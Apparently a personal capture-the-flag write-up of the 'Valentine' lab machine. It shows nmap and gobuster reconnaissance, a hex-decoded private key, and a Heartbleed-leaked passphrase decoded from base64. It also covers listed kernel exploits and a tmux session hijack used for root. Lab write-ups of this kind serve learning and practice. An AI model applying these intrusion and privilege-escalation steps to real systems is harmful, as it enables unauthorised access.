









# Summary


## about target

tip:  10.129.34.100

hostname: Valentine

Difficulty: Easy


## about attack

+ found the key and decoded, no password.  Not known heartbleed vuln.
+ privesc, found dirty cow(failed) and tmux;


**attack note**


```bash
Valentine / 10.129.34.100


PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_ssl-date: 2022-10-12T12:18:16+00:00; -1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 20 -u http://$tip/ -o gobuster-80.txt

/dev   found files.

hex decode, private key.
hex -D hype_key > hype.key

ssl heartbleed exploit. 32745.py

.$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==


echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype


## local enum

sudo version 1.8.3p1
https://www.exploit-db.com/exploits/25134

  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131


/usr/bin/tmux -S /.devs/dev_ses
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#tmux-sessions-hijacking


```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 964c51423cba2249204d3eec90ccfd0e (DSA)
|   2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_  256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_ssl-date: 2022-10-12T12:18:16+00:00; -1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
```


## http enum

default page.









# Exploitation











# Privesc


## Post Enumeration


## System


```bash
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 12 05:10 /.devs/dev_sess
hype@Valentine:~$ groups
hype cdrom dip plugdev sambashare
hype@Valentine:~$ tmux -S /.devs/dev_sess
```




`terminal open failed: missing or unsuitable terminal: tmux-256color`

```bash
export TERM=xterm
```


## system-dirtycow

exploit https://www.exploit-db.com/exploits/40616

failed.




## proof

```bash


```



